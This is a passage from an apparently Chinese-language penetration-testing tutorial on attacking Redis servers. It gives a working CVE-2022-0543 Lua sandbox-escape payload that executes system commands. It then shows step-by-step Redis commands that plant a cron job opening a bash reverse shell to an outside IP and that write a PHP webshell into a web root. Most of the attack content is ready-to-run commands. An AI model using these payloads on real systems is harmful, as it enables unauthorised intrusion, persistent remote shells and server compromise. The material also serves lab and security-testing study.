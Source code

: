 其实上述rec的手法为**主从复制RCE，原理会在后面讲到**  
  
  
  
**二-CVE-2022-0543沙盒逃逸命令执行**  
  
用的vulhub现成的  
1. 漏洞介绍  
  
Redis 嵌入了 Lua 编程语言作为其脚本引擎，可通过eval命令  
在沙箱中执行Lua脚本。  
Debian 以及 Ubuntu发行版的源在打包Redis时，不慎在Lua沙箱中遗留了一个对象package，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。  
  
Lua 初始化的末尾添加package=nil  
  
2.影响版本  
  
```
2.2 <= redis < 5.0.13
2.2 <= redis < 6.0.15
2.2 <= redis < 6.2.5
```  
  
‍  
  
3.复现流程  
  
需要知道package.loadlib的路径  
  
利用luaopen_io函数  
```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("whoami", "r"); local res = f:read("*a"); f:close(); return res' 0
```  
  
  
  
  
**叁-常见渗透手法**  
  
  
**1.计划任务getshell**  
  
写一个每分钟的  
```
set  xx   "\n* * * * * bash -i >& /dev/tcp/192.168.1.18/9999 0>&1\n"#每分钟一次
config set dir /var/spool/cron/#设置目录
config set dbfilename root  #快照名称为root，也就是写入/var/spool/cron/root
save
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5urd4duXnZfRmRCfzPhtFCPyHHcEaKJibibuO18zd1zMae2zvyEfmIJdnoxQnJz30GsianZEn1O8JJcLQ/640?wx_fmt=png&from=appmsg "")  
  
一分钟就回来了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5urd4duXnZfRmRCfzPhtFCPy1mL1oIscicNvYsfzSoYnol70OdicQTzOxqjyZLLhwXl0BTtCqFlHXeWg/640?wx_fmt=png&from=appmsg "")  
  
  
**2.写webshell**  
```
config set dir /www/wwwroot/1.1.1.1/
set php "\\n\\n<?php phpinfo();?>\\n\\n"
config set dbfilename 1.php
save
```  
  